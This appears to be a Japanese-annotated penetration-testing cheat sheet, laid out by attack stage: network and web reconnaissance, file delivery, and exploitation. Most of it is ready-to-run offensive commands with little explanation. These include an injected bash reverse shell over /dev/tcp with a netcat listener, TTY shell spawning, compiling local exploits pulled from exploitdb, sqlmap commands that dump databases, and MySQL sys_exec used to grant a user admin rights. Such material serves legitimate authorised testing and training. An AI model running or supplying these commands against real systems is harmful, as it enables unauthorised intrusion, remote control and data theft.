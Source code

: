 
## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ https://github.com/maurosoria/dirsearch

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

SSH／認証鍵使わずに接続

     ssh -o PubkeyAuthentication=no user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Authentication Bypass Cheat Sheet](https://exploit.linuxsec.org/sql-injection-authentication-bypass-cheat-sheet/)

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash') #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/sh")'
    ruby -e 'exec "/bin/bash"'


[bashリバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

MySQL Root to System Root with lib_mysqludf_sys

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');


[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le



